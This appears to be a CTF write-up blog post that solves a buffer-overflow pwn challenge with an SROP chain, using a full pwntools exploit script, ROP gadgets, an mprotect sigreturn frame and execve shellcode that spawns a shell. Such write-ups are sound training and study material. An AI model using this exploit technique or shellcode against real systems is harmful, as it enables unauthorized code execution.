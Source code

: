 ```yaml
---
layout: post
title: System Drop
date: 2021-04-25
classes: wide
tags:
  - Userspace
  - Exploitation
--- 
```

<pre style="font-size: 0.5vw; text-align: center">
                                                      *****************************************     
                                                    *********************************************   
                                                    **********************************************  
                                                    *****                                  *******  
                                                    ****                                    ******  
                                                    ****                                    ******  
                                                    ******                                ********  
                                                    **********************************************  
                                                    ****                                    ******  
                               *******              ***                                      *****  
                              *********             ****                                    ******  
                            ************            **********************************************  
                           **************           **********************************************  
                          ****************          ****                                    ******  
                         ***            ****        ***                                      *****  
                        ****             ****        ****                                  *******  
                       *****             *****        ********************************************  
                     *******            *******         ******************************************  
                    ********            ********         *****************************************  
                   *********            *********         ****************************************  
                  **********            ***********        ***********************     ***********  
                 ************           *************       *********************       **********  
                *************           **************       ********************       **********  
               **************           ***************       *********************    ***********  
             ****************           ****************        **********************************  
            *****************           *****************        *********************************  
           ******************          *******************        ********************************  
          *******************          *********************       *******************************  
         *********************        ***********************       ******************************  
        **********************         ***********************       *****************************  
      **********************            ***********************        ***************************  
     **********************              ***********************        **************************  
    ***********************              ************************        *************************  
   *************************             *************************       *************************  
  **************************            ***************************       ************************  
   ***************************        *****************************      *************************  
      **********************************************************         *************************  
                                                                        **************************  
                                                                       ***************************  
                                                                    *****************************           
</pre>

---

This was a pwn challenge rated with 325 points at Cyber Apocalypse 2021 CTF from HTB.
I didn't save the description of the chall but it said something about aliens. 

They only provide a binary. 

---

## First look

The first thing we notice when we open it is how small it is. Only a main function that calls `alarm` and `read`. There is an obvious buffer overflow because we read 0x100 bytes and the stack only expects 0x20 bytes.

![main](/./assets/imgs/main-drop.png)

Let's check the security of the binary:

![Security](/./assets/imgs/security-drop.png)

No canary (we already saw that in the `main` function), no PIC and NX bit.

So we have a very very small program (that means less ROP possibilities), that allows us to store a big amount of data into the stack and that's it.

The name of the challenge give us a clue but the real clue comes in the fact that a function called `sym._syscall` is loaded. The contents are:

```assembly
push rbp
mov rbp, rsp
syscall
ret
```

This is clearly an SROP. We can store more than 248 bytes (which is the size of the frame) and we have a syscall available. Let's do this.

## F

To trigger the `sigreturn` syscall we only need to set the `rax` register to 15 or 0xf and then call the `syscall` function with the frame in the stack.

Then, we can set all the registers to make the `.text` section writable by calling the `memprotect` syscall, redirect to main and write on the `.text` section whatever shellcode we want.

Let's search for a ROP gadget that allow us to set the `rax` register...none.

## The long road

How else could we set the `rax` register? Well, it is used for something else.

It is used as the return value from functions. And the `read` function returns the amount of bytes read. So if we could read only 15 bytes, we could set the `rax` register. 

But the ROP chain is going to be longer, obviously. Only the frame is 248 bytes. 

And we have another problem, the frame is going to use 248 bytes and we can read 0x100 bytes or, in base 10, 256 bytes. We can only use 8 more bytes for the ROP. We definetly need more than 8 bytes.

On the first read we have to store the ROP chain but if we trigger a second read we have to say where to store the data so we should move the `rsp` pointer to somewhere we know.

Let's make a list:

1. Store the ROP chain
2. Move the `rsp` to a static address.
4. Store the frame
5. Read 15 bytes to set the `rax` register.
6. Call the syscall.

Well, we have a gadget we could use to move the `rsp` (I am using [RopGadget](https://github.com/JonathanSalwan/ROPgadget) to get the gadgets) and also another for the `rsi` and `rdi` to set the parameters to the `read` function:

```assembly
0x00000000004005cd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004005d3 : pop rdi ; ret
0x00000000004005d1 : pop rsi ; pop r15 ; ret
0x0000000000400416 : ret
```

We could use the `.data` section to redirect the new `rsp` there.

## Building the script

First, import `pwntools` and store all the addresses we need and the offset to the buffer overflow (0x20 + 8 for the `rbp`):

```python
from pwn import *

context.clear(arch="amd64")

offset = b'A' * 0x28
data_address = 0x00601028
read_address = 0x00400440
pop_rdi = 0x00000000004005d3
pop_rsi = 0x00000000004005d1
pop_rsp = 0x00000000004005cd
syscall = 0x0040053b
main = 0x00400541
```

In the first read we are going to store the next part of the ROP in the `.data` section:

> Notice: the read function reads as much data as stated in the argument or if the buffer holds less than that, as much as it is. This means that we have to fill the buffer with the amount of data read (0x100) so we avoid the function reading more than we want.


```python
first_read = offset + p64(pop_rdi) + b'\x00' * 8 + p64(pop_rsi) + p64(data_address) + b'\x00' * 8 + p64(read_address)
redirect_rsp = p64(pop_rsp) + p64(data_address - 8 * 3) 

p.send(first_read + redirect_rsp + b'\x00' * (0x100 - len(first_read + redirect_rsp )))
```

Perfect, now we send the second part of the ROP: another read for the frame, another one for the 0xf in `rax` and finally the call to `syscall`

> I added a bunch of ret just in case it was an ubuntu 18.04 with the movaps issue

```python
second_read = p64(pop_rdi) + p64(0x00) + p64(pop_rsi) + p64(data_address + 8 * 15) + b'\x00' * 8 + p64(ret) + p64(read_address) + p64(pop_rdi) + p64(0x00) + p64(pop_rsi) + p64(data_address + 900) + b'\x00' * 8 + p64(ret) + p64(read_address) + p64(syscall)

p.send(second_read + b'\x00' * (0x100 - (len(second_read))))
```

Perfect, let's send the frame and then the 0xf bytes with the main address so we can return after the `mprotect`. I'm using 0x400000 because of what the manual says about mprotect:

> The implementation may require that addr be a multiple of the page size as returned by sysconf()

```python
frame = SigreturnFrame(kernel="amd64")
frame.rax = 10 # mprotect syscall
frame.rdi = 0x00400000 # base address
frame.rsi = 200 # size
frame.rdx = 7 # permission RDX
frame.rsp = data_address + 900 # where the main address will be
frame.rip = syscall  

p.send(bytes(frame) + b'\x00' * (0x100 - len(frame)))
p.sendline(p64(main) + b'XXXXXX')
sleep(2)
```

> We are adding a sleep of 2 seconds because now we can't send the whole 0x100 bytes to fill the buffer. It is a dirty trick but it works.

Now we are back in the main with the `.text` section writable. Let's write a basic shellcode there to pop a shell. Same as before, ROP to write our input to the `main` function and redirect to that address:

```python
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

first_read = offset + p64(pop_rdi) + b'\x00' * 8 + p64(pop_rsi) + p64(0x00400570) + b'\x00' * 8 + p64(read_address) + p64(0x00400570)

p.send(first_read + b"\x00" * (0x100 - len(first_read)))
p.sendline(shellcode)

p.interactive()
```

And we got it!

![Flag](/./assets/imgs/flag-drop.png)
